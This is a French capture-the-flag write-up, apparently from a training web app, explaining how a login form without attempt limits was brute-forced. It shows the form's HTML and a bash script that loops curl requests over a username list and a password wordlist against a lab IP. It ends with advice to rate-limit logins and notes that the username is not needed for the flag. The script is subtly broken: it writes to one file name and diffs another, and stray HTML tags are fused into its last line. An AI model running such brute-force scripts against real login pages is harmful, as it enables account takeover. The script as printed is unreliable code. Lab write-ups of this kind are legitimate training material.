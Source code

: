 # Explications
Dans la page "signin", il y un formulaire de connexion :

```html
<form action="#" method="GET"> 
	<input type="hidden" name="page" value="signin">
	Username:<input type="text" name ="username" style="width:100%;">
	Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off">
	<input type="submit" value="Login" name ="Login">
</form>
```
On observe après plusieurs essais de connexion que le site ne nous **bloque** pas et ne nous empeche pas de ressayer de se connecter.

Donc on essaye de se connecter en **Brute Force** avec un script shell :
```bash
#!/bin/bash
curl -s "http://192.168.1.175/?page=signin&username=qsdqsd&password=qsd&Login=Login#" > trueone
while IFS='' read -r user; do
		echo "try user : $user"
		url1="http://192.168.1.175/?page=signin&username="
		url2="&password="
		url3="&Login=Login#"
		while IFS='' read -r line; do
				echo "try password: $line"
				curl -s "$url1$user$url2$line$url3" > tested
				DIFF=$(diff trueone testee)
				if [ "$DIFF" != "" ]
				then
						cat testee | grep "flag"
						echo "user is : $user\npassword is $line" >> result.txt
						rm testee
						break
				fi
				rm testee
		done < "dict.txt"
done < "users.txt</code><pre>
```
Avec ce **Brute Force**, on utilise un [dictionnaire](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) de mot de passe, et un liste d'**users**.

# Comment l'éviter ?
Il faut bloquer les **Brute Force**, en limitant le nombre d'essais de connexion sur une page.

# Bonus
On se rend compte apres plusieurs essais d'users avec le **Brute Force** que l'user n'est même pas necessaire pour obtenir le flag sur cette page.
